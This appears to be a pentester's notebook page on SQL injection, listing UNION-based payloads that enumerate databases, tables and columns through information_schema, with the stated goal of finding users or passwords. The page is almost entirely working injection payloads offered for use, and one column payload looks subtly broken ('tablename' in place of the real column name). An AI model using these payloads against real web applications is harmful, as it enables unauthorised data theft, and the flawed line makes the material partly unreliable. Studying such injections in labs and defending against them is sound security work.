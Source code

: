 # Listing db, table and columns

## Listing databases

' union select schema\_name, NULL from information\_schema.schemata-- -

<figure><img src="../../.gitbook/assets/2024-02-15 07_46_48-kali-linux-2022.4-virtualbox-amd64 [Corriendo] - Oracle VM VirtualBox _ 1.png" alt=""><figcaption></figcaption></figure>

The last command dumps all databases, we'll know try to enumerate each one of those DB's till we find some sensitive data like users or passwords.

## Listing tables:

UNION select table\_name, NULL from information\_schema.tables where table\_schema = 'public'-- -

## Listing columns:

' union select NULL, column\_name from information\_schema.columns where table\_schema='DB' and tablename='table'-- -
